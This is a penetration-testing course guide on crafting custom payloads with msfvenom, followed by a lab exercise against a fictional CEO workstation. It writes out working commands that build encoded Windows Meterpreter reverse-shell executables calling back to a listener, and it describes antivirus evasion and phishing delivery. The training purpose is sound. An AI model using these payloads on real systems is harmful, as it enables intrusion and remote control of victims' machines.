




## 17.3 Student Guide: Custom Payloads with msfvenom

### Overview

In this lesson, we will conclude our two units on pen testing by crafting custom payloads. 

### Class Objectives

By the end of class, you will be able to:

- Create custom payloads.

- Add payloads to websites by altering HTML. 

- Assess their overall penetration test engagement skills. 

### Slideshow

- Slides for this lesson are available on Google Drive, located here: [17.3 Slides](https://docs.google.com/presentation/d/1ZfjDj2n9JO1fUG7bulmC2RT_9Ckgjs6itn4Do282oEY/edit#slide=id.g4789b2c72f_0_6)

____

### 01. Custom Payloads

Review the five pen testing stages: 

1. Planning and Reconnaissance
2. Scanning
3. Exploitation
4. Post Exploitation
5. Reporting

Today's class will continue with Post Exploitation.

Think back to the last class. While making a Meterpreter session, we used the following custom payload: 

  - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.8 LPORT=4444 -f exe R > hack.exe`

Today, we'll learn how to create payloads like this one using Metasploit.

- Remember a payload is the shell code that runs when an exploit successfully compromises a system.

- Attackers typically build custom payloads that they can use in phishing emails or add to their websites. When unsuspecting users click the link for the malicious payload, their computers are infected.

The exploitation of services is not as common as it was a decade ago. This is due to the use of defense countermeasures like endpoint detection and response,  AV solutions, and IPS/IDS implementation. 

- While patching mitigates vulnerable services, attackers will deliver custom payloads through social engineering if they cannot exploit services.

- Since C2 servers have dynamic IP addresses, attackers often have to create their own customized payloads that call back to their C2 server using SYN packets.

- Custom payloads allow customization of various payload options such as:

  - Architecture
  - Shell type
     - Reverse
     - Bind
     - Meterpreter
     - Other proprietary C2 shell

In order to create these payloads, attackers  use a tool called `msfvenom`. 

-  `msfvenom` is a Metasploit framework tool used to generate and encode payloads. 

- `msfvenom` is part of the Metasploit framework, but Metasploit does not need to be running in order to use `msfvenom`. 

While it's relatively easy to create custom payloads, the real challenge is creating a payload that bypasses network detection by IDS and antivirus (AV) solutions.

**Encoding** is a method used to evade detection tools.

   - It changes the signature of an exploit or payload, creating a new signature that has no written rule.

   - This change in signature allows payloads to bypass detection from AV and IDS tools that detect known malicious signatures.

We'll now walkthrough the basics of `msfvenom`'s help menu and use some basic command options available for use with encoders, payloads, and formats.

####  Custom Payload Creation with msfvenom Demonstration

Log into the  Kali Linux (Attacker) VM.

1. First, we'll look at `msfvenom`'s help menu to see which command options are available.

    Launch the terminal and type the following command:

      - `msfvenom`

      

    - We are presented with a list of all available command options for `msfvenom`.

   Let's take a look at some of the most important options in this list:

    - `-p` designates the Metasploit payload we want to use.
    - `-e` designates the encoder we want to use.
    - `-a` designates the architecture we want to use (the default is `x86`).
    - `-s` designates the maximum size of the payload.
    - `-i` designates the number of iterations with which to encode the payload.
    - `-x` designates a custom executable file to use as a template.
    - `-o` designates an output file to be created, specifying its name and location.

2. Next, list all of the available payloads: 

   Type the following command:

   - `msfvenom -l payloads`

      - Output should provide a list of all currently installed payloads in alphabetical order by name and description.

       

3. List all of the executable file and transform formats supported by `msfvenom`.

   Type the following command:

   - `msfvenom -l formats`

      - We're presented with a list of all of the file formats in which payloads can be delivered.

     

4. List  `msfvenom`'s encoders. The encoders are various algorithms and encoding schemes that Metasploit uses to re-encode payloads.

     Type the following command:

     - `msfvenom -l encoders`

      

   Without `msfvenom`, we would have to re-encode a payload by piping the `msfpayload` command through the `msfencode` command. `msfvenom` does both actions, and more, in a single command.

#### Msfvenom command structure

Now we'll cover the basics of `msfvenom`'s custom payload command options.

- Display the following command to the class:

   - `msfvenom -p windows/meterpreter/reverse_tcp -a x86 -e x86/shikata_ga_nai -f exe -o /tmp/hack.exe LHOST=192.168.0.8 LPORT=4444`

      - `msfvenom`: Launches the `msfvenom` program.

      - `-p`: Indicates payload. 

      - `windows/meterpreter/reverse_tcp`: The Metasploit command module.

      - `-a x86`: Designates the architecture we will use. `x86` is default.

      - `-e x86/shikata_ga_nai`: Designates the encoder we will use.

      - `-f exe`: Indicates the file type to create. In this case, `.exe`.

      - `-o /tmp/malware.exe`: Creates an output file, naming the file (`malware.exe`) and location (inside the `/tmp` directory).

- Next, let's breakdown the msfvenom we used last class:  

  - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.8 LPORT=4444 -f exe R > hack.exe`

      - `msfvenom`: Launches the `msfvenom` program.
      - `-p`: Indicates payload. 
      - `windows/meterpreter/reverse_tcp`: The Metasploit command module.
      - `-f exe`: Creates a `.exe` file type.

### 02.  Activity: Creating Custom Payloads 

- [Activity File: Creating Custom Payloads](Activities/01_Creating_Custom_Payloads/Unsolved/README.md)

### 03. Activity Review: Creating Custom Payloads 

- [Solution File: Creating Custom Payloads](Activities/01_Creating_Custom_Payloads/Solved/README.md)

### 04.  Pen Testing Homework (To End of Class)

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

You will use all of the steps of a pentest: 

1. Planning and Reconnaissance
2. Scanning
3. Exploitation
4. Post Exploitation
5. Reporting

- The assignment concludes with a report about your findings.

#### The Scenario

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

- [Activity File: Penetration Test Engagement](Activities/07_Pentest_Engagement/Unsolved/README.md)

---
© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.  